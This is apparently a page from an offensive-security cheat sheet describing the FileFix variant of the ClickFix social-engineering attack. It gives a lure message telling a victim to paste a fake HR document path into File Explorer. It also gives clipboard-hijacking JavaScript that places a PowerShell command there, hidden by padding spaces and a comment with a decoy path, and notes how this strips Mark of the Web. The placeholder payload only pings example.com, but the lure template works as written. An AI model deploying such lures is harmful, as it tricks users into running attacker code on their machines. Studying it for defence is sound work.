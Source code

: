 # ClickFix

> ClickFix is a social engineering attack that prompts users to unknowingly execute malicious code, usually through the Run Dialog (`Windows Key + R`).

## FileFix

Display a message to the user to lure him into copying and pasting a command in a shell or equivalent (File Explorer).

```ps1
To access the file, follow these steps:
1. Copy the file path below:
   `C:\company\internal-secure\filedrive\HRPolicy.docx`
2. Open File Explorer and select the address bar (CTRL + L)
3. Paste the file path and press Enter
```

When the user clicks on the "COPY" button, it should set the content of his clipboard to the following.

```ps1
navigator.clipboard.writeText("powershell.exe -c ping example.com                                                                                                                # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx                                                                    ");
```

Here, a few tricks have been added to improve the efficiency of the payload:

* Multiple spaces to hide the start of the payload
* A comment with `#` containing a fake path to the document

Executable files (e.g. .exe) executed through the File Explorer’s address bar have their Mark of The Web (MOTW) attribute removed.

## References

* [FileFix - A ClickFix Alternative - mrd0x - June 23, 2025](https://mrd0x.com/filefix-clickfix-alternative/)
* [FileFix (Part 2) - mrd0x - June 30, 2025](https://mrd0x.com/filefix-part-2/)
